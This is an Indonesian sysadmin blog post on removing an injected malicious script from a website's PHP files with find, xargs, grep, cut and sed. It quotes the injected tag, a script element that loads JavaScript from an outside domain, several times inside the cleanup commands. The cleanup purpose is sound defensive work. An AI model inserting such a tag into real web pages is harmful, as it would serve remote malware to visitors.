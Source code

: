 ```yaml
---
title: 'Menghapus Malicious Code Pada Halaman Web'
date: 2015-08-24T14:04:16+07:00
description: "Tip untuk menghapus malicious code pada halaman web menggunakan CLI"
tags: ['code', 'linux', unix', 'text', 'shell', 'sysadmin']
---
```

Salah satu masalah keamanan pada web adalah halaman web disusupi dengan malicious code. Dengan mengunjungi web yang disusupi malicious code, perangkat user dapat terjangkit malware ataupun masalah keamanan lainnya. 

Contohnya pada hari ini saya mendapatkan masalah ada website yang terkena
*code injection* yang menambahkan script pada halaman-halaman website tersebut
sehingga diblock oleh Google. Setelah beberapa melakukan pencarian diperoleh
script yang ditambahkan pada source code PHP.

    <script language="JavaScript" 
    src="http://3xindiansex.com/st/css/js/jq-footer.js" 
    type="text/javascript"></script>

Script itu tersebar dibanyak file PHP web ini, untuk menghapusnya satu-satu akan
menghabiskan banyak waktu dan mungkin dapat merusak tampilan web apabila ada
bagian lain yang salah dihapus.

Untuk menghapus script tersebut ada beberapa tool yang digunakan. **find**
untuk mencari file yang akan diproses, **xargs** untuk menjalankan perintah
yang disubtitusi dengan hasil file yang diperoleh dengan perintah **find**,
**grep** untuk menyaring file yang berisikan script yang akan dihapus,
**cut** untuk memotong hasil output dari **grep** dan terakhir **sed** untuk
menghapus script pada file.

Semua tool tersebut akan dikaitkan dengan menggunakan *pipe*, salah satu
tool yang sangat berguna untuk pekerjaan pada *command line*

Pertama tampilkan file yang akan diproses:
    
    find -type f -print0

`-type f` untuk mencari object berjenis file (gunakan d untuk cari directory)

`-print0` tampilkan outputnya dalam bentuk *null terminated string* (kalau
hasil **find** ditampilkan satu file perbaris)

Kirimkan nama file ke perintah *grep* untuk menfilter file-file yang mengandung
script yang akan dihapus. Untuk melakukan ini kita akan *pipe* output **find**
ke *xargs* yang menjalankan perintah *grep*.

    find -type f -print0 | xargs -i -0 grep -H '<script language="JavaScript" 
    src="http://3xindiansex.com/st/css/js/jq-footer.js" 
    type="text/javascript"></script>' {}

`xargs -i -0` ganti {} dengan output dari output perintah sebelumnya.
-0 menandakan bahwa output sebelumnya merupakan *null terminated string*

dan

`grep -H ...` tampilkan string yang dicari beserta dengan nama file.

Contoh outputnya seperti ini:

    gallery.php: <script ... >

Nah kita cuma perlu nama filenya, gunakan **cut** untuk memotong output
dengan delimiter ":"

    find -type f -print0 | xargs -i -0 grep -H '<script language="JavaScript" 
    src="http://3xindiansex.com/st/css/js/jq-footer.js" 
    type="text/javascript"></script>' {} | cut -f 1 -d:

`-f 1` ambil field 1 dari hasil pemotongan
`-d:`  gunakan ":" sebagai delimiter antar field

Dan terakhir hapus script pada file-file tersebut dengan menggunakan **sed**.

    for i in `find -type f -print0 | xargs -i -0 grep -H 
    '<script language="JavaScript" 
    src="http://3xindiansex.com/st/css/js/jq-footer.js" 
    type="text/javascript"></script>' {} | cut -f 1 -d:`; do sed -i 
    's/<script language="JavaScript" 
    src="http:\/\/3xindiansex.com\/st\/css\/js\/jq-footer.js" 
    type="text\/javascript"><\/script>//g' $i; done

Nama file-file yang ditemukan dari perintah sebelumnya dikirim ke perintah
looping for yang nantinya akan diproses dengan **sed**.

`sed -i` untuk melakukan perubahan terhadap file *in-place* dan
`s/asli/baru/g` perintah **sed** untuk melakukan substitusi text asli menjadi text baru secara global (seluruh asli diganti menjadi baru).

Tool-tool kecil pada Linux/Unix seperti ini sangat membantu pekerjaan system
admin, terutama untuk system admin yang malas seperti saya ^^.

Happy hacking!
